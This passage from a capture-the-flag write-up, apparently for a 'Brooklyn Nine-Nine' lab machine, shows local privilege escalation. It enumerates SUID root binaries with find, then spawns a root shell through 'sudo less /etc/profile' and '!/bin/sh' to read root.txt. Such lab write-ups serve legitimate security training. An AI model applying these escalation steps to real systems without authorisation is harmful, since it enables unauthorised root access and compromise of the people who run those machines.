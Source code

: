 ```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```bash
find: ‘/run/systemd/unit-root’: Permission denied
find: ‘/run/systemd/inaccessible’: Permission denied
find: ‘/run/lock/lvm’: Permission denied
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-sr-x 1 root root 109432 Oct 30  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1

-rwsr-xr-x 1 root root 43088 Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 170760 Dec  1  2017 /bin/less
-rwsr-xr-x 1 root root 26696 Jan  8  2020 /bin/umount
```

/bin/less stands out, We can use script of this website to became a root, in this case we choose less process: [https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/)

```bash
sudo less /etc/profile
!/bin/sh
```

```bash
jake@brookly_nine_nine:/$ sudo less /etc/profile
# whoami
root
```

Now, we're root!

```bash
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# cd root
# ls
root.txt
# cat root.txt
```

<details><summary>🚩 Flag 2 (root.txt)</summary></details>
